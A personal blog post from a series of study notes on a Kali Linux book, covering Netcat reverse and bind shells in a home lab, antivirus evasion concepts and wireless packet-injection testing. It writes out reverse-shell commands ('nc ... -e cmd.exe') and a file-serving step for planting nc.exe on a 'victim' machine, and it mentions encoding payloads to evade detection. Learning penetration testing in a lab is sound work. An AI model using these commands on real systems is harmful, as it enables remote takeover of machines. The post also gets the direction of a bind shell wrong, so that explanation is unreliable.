


Focusing on mastering penetration testing and digital forensics
Table of Contents
Table of Contents
Ultimate-Kali-Linux-Book -
This article is part of a series.
Part 5:
This Article
Lets talk Networking and Shells! I will be exploring Netcat to create connections between my Kali machine and a victim Windows machine. Will also be going over Anti-malware evasion techniques to reduce Virustotal scores when scanning payloads created using scripts. And finally test out my wireless adapter that I got for cheap for packet injection and Monitor mode compatibility with Aireplay-ng.
This ones a short one guys so I’ll give it my best, I know I’m only using scripts and pre-made tools yet and not reversing engineering yet but put a bit of trust in me. I have a small flame inside of me, waiting for small chips of wood to be thrown inside to grow bigger into a roaring flame to not only light up my path in dark times but also for others I care about around me.
A reverse shell is a one way connection from the victim -> attacker, from there they would be able to perform remote code execution or monitor for the victims behaviour, keystrokes, screen sharing and more.
A binding shell uses inbound firewall rules meaning that the connection originates from the victim -> attacker.
1.2 Creating a Reverse & Binding Shell with Netcat
#
There is a Windows version of Netcat on Kali at this directory /usr/share/windows-binaries which will be uploaded to the victims computer which when executed will open the shell.
Get the file onto the victims machine, for this example we will be connected on the same network and I will be using a Python server to transfer, cd into windows-binaries and execute python3 -m http.server 8080
On victims machine in a browser: <kaliIP>:8080

Click on nc.exe as the victim and close Python web server
Execute the following in a terminal on kali nc -nlvp 1234 on bob’s nc -nv <kaliIP> 1234 -e cmd.exe
To create a bind shell on kali nc -nlvp 1234 -e /bin/bash and on bob’s nc -nv <kaliIP> 1234, this will allow bob to send commands to kali
ik this above isn’t what I’ve talked about as I’ve lost the gif for Netcat but here is a payload created by MSF using vnc.exe ^^
Signature-base detection: Anti-malware software will use a database of known malicious code and compare it to scans
Behavioural-based detection: This is where the actions taken by malware is monitored by being placed in a Virtual environment for changes in the system
Heuristic-based: This is where the anti-malware software uses rules and algorithms to determine if malware has been detected
For the final part of this section I will be testing out my wireless adapter which was bought off Aliexpress a long time ago and just resurfaced for this which I’m happy about.
Once in monitor mode I can see if the adaptor has packet injection capabilities with aireplay-ng -9 wlan0

Well this pretty much covers everything for the fifth part of ‘The Ultimate Kali Linux Book’ by Glen D. Singh. This was a short one but I learned a bit on the different shell types, using encoders to mask out known exploits by anti-malware software and testing out my wireless adapter for later testing. Glad you had a good read for this one, hope you’re doing OK wherever you are. Bye.
Ultimate-Kali-Linux-Book -
This article is part of a series.